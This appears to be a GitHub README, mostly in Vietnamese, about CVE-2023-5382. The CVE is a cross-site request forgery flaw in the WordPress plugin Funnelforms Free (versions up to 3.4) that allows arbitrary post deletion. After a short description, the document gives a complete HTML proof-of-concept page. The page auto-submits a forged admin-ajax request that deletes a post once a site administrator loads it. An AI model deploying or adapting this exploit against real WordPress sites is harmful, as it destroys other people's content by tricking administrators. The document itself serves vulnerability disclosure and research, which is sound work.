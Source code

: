 # CVE-2023-5382

- Plugin : Funnelforms Free
- Phiên bản lỗi : <=3.4
- Lỗi : Cross-Site Request Forgery to Arbitrary Post Deletion
- CVSS Score: 6.5 (MEDIUM)

# Mô tả

- Plugin Funnelforms Free dành cho WordPress dễ bị tấn công bởi Giả mạo yêu cầu trên nhiều trang web ở các phiên bản lên đến và bao gồm cả 3.4. Điều này là do xác thực nonce bị thiếu hoặc không chính xác trên hàm fnsf_delete_posts. Điều này giúp những kẻ tấn công không được xác thực có thể xóa các bài đăng tùy ý thông qua một yêu cầu giả mạo với điều kiện là chúng có thể lừa quản trị viên trang web thực hiện một hành động chẳng hạn như nhấp vào liên kết.

# POC

- PoC (This will delete the form with ID 1)

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://example.com/wordpress/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="af2&#95;fnsf&#95;delete&#95;posts" />
      <input type="hidden" name="post&#95;ids&#91;&#93;" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

# Khai Thác
